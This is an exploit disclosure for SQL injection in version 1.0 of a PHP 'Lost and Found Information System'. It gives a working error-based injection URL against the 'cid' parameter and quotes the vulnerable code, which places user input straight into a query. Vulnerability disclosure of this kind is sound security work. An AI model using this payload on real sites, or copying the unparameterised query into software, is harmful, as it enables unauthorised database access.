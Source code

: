 ### Exploit Title: Lost and Found Information System - multiple vulnerabilities

### Date: 2023-06/09

### Exploit Author: AnotherN

### Vendor Homepage: https://www.sourcecodester.com

### Software Link: https://www.sourcecodester.com/download-code?nid=16525&title=Lost+and+Found+Information+System+using+PHP+and+MySQL+DB+Source+Code+Free+Download

### Version: 1.0

### Tested on: windows10 + phpstudy

# **1.SQL injection vulnerability in items\index.php**
---
## Sample request POC #1

```
http://php-lfis.com/?page=items&cid=1%27%20OR%20(SELECT%202608%20FROM(SELECT%20COUNT(*),CONCAT(0x717a786a71,(SELECT%20(ELT(2608=2608,1))),0x71707a6271,FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x)a)%20AND%20%27UMbA%27=%27UMbA
```
## Sqlmap running results #1

![blockchain](https://github.com/AnotherN/cvv/raw/main/imgs/1.items-index.php.jpg "Lost and Found Information System")

## Related Codes items\index.php

```
<?php 
if(isset($_GET['cid'])){
    $category_qry = $conn->query("SELECT * FROM `category_list` where `id` = '{$_GET['cid']}'");
    if($category_qry->num_rows > 0){
        foreach($category_qry->fetch_assoc() as $k => $v){
            $cat[$k] = $v; 
        }
    }
}
?>
```
